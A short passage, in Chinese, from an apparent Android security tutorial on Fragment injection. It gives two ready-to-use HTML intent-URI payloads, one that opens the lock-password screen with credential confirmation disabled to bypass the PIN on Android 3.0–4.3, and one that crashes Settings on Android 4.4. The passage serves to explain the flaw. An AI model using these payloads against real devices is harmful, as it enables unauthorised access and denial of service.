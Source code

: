 **案例 6：Fragment 注入(绕过 PIN+拒绝服务)**

Fragment 这里只提一下，以后可能另写一篇。

```
<a href="intent:#Intent;S.:android:show_fragment=com.android.settings.ChooseLockPassword$ChooseLockPasswordFragment;B.confirm_credentials=false;launchFlags=0x00008000;SEL;action=android.settings.SETTINGS;end">
16、bypass Pin android 3.0-4.3 （selector）
</a><br> 
```

![](img/img8_u80_png.jpg)

```
<a href="intent:#Intent;S.:android:show_fragment=XXXX;launchFlags=0x00008000;SEL;component=com.android.settings/com.android.settings.Settings;end">
17、fragment dos android 4.4 (selector)
</a><br> 
```
